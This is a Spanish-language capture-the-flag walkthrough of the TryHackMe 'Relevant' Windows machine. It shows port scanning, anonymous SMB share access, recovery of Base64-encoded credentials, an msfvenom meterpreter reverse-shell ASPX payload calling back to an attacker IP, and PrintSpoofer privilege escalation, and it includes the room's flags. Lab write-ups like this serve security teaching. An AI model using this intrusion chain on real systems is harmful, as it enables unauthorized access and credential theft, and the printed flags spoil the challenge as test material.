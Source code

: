# Relevant

## Escaneo de puertos

Realizamos primero un escaneo de puertos para ver los puertos abiertos de la máquina vulnerable.

```
nmap -A -sV -sC -T4 -p- 10.10.121.56
```

Después de esperar unos minutos tenemos los siguientes resultados:

![Escaneo de puertos](./images/Pasted_image_20250222121711.png)

Y estos son los resultados del script de`nmap`.

![[Pasted image 20250222121902.png]]

## Enumerating

Tenemos un servicio HTTP por el puerto 80. Sólo nos aparece la página por defecto de Microsoft IIS.

![[Pasted image 20250222122114.png]]

Vamos a enumerar los directorios con`gobuster`.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.121.56
```

![[Pasted image 20250222124555.png]]

Pero no encontramos nada relevante.

Ahora probamos a enumerar con SMB. Usamos el siguiente comando:

```
smbclient -L 10.10.121.56
```

Accedemos como anónimo y nos muestra los siguientes resultados en los que vemos que hay un sharename llamado`nt4wrksv`.

![[Pasted image 20250222123358.png]]

Probamos a acceder:

```
smbclient \\\\10.10.121.56\\nt4wrksv
```

![[Pasted image 20250222123524.png]]

Listamos el contenido de la ubicación en la que estamos y hay un archivo de`passwords.txt`.

![[Pasted image 20250222123614.png]]

Nos los descargamos y salimos.

```
get passwords.txt
```

![[Pasted image 20250222123702.png]]

Mostramos el contenido en el anfitrión.

![[Pasted image 20250222123727.png]]

Y vemos que claramente está codificado en Base64. Decodificamos con el siguiente comando:

```
echo -n Qm9iIC0gIVBAJCRXMHJEITEyMw== | base64 -d 
```

![[Pasted image 20250222123850.png]]

El usuario es`Bob`y la contraseña es`!P@$$W0rD!123`.

Y la de Bill también tenemos:

`bill`

```
Juw4nnaM4n420696969!$$$
```

![[Pasted image 20250222123958.png]]

Hacemos otro escaneo de`nmap`para determinar qué vulnerabilidades hay:

```
nmap -oA nmap-vuln -Pn -script vuln -p 80,135,139,445,3389 10.10.121.56
```

El servidor de Samba es probablemente vulnerable a RCE por el **CVE-2017-0143**.

![[Pasted image 20250222125516.png]]
## Exploitation

Vamos a usar`msfvenom`para crear una reverse shell aprovechándonos del exploit.

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.3.33 lport=4444 -f aspx -o shell.aspx
```

![[Pasted image 20250222130621.png]]

Subimos la reverse shell al network share.

```
put shell.aspx
```

![[Pasted image 20250222131746.png]]

Iniciamos un puerto en escucha en Metasploit:

```
msfconsole -q
```

Usamos el siguiente exploit:

```
use exploit/multi/handler
```

Cargamos el payload que queremos:

```
set payload windows/x64/meterpreter_reverse_tcp
```

Configuramos la IP y el puerto con la de Kali en la VPN.

```
set lhost 10.8.3.33
set lport 4444
```

Ejecutamos el exploit:

```
run
```

![[Pasted image 20250222132122.png]]

Abrimos la shell en la víctima

```
curl http://10.10.160.251:49663/nt4wrksv/shell.aspx 
```

Y se nos inicia la consola de meterpreter que estaba en escucha.

![[Pasted image 20250222134122.png]]

La flag de users está en la siguiente ubicación:

```
cat c:/users/bob/desktop/user.txt
```

![[Pasted image 20250222134239.png]]

```
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

## Escalada de privilegios

Comprobamos los privilegios que tiene la sesión de meterpreter.

![[Pasted image 20250222134526.png]]

Tenemos el de`SeImpersonatePrivilege`.

Nos descargamos`PrintSpoofer64.exe`.

https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

Y subimos el archivo.

![[Pasted image 20250222135514.png]]

Nos ubicamos donde está el PrintSpoofer64.exe y lo ejecutamos.

```
PrintSpoofer64.exe -i -c powershell.exe
```

![[Pasted image 20250222140243.png]]

Finalmente, obtenemos la flag del root.

![[Pasted image 20250222140501.png]]

```
THM{1fk5kf469devly1gl320zafgl345pv}
```


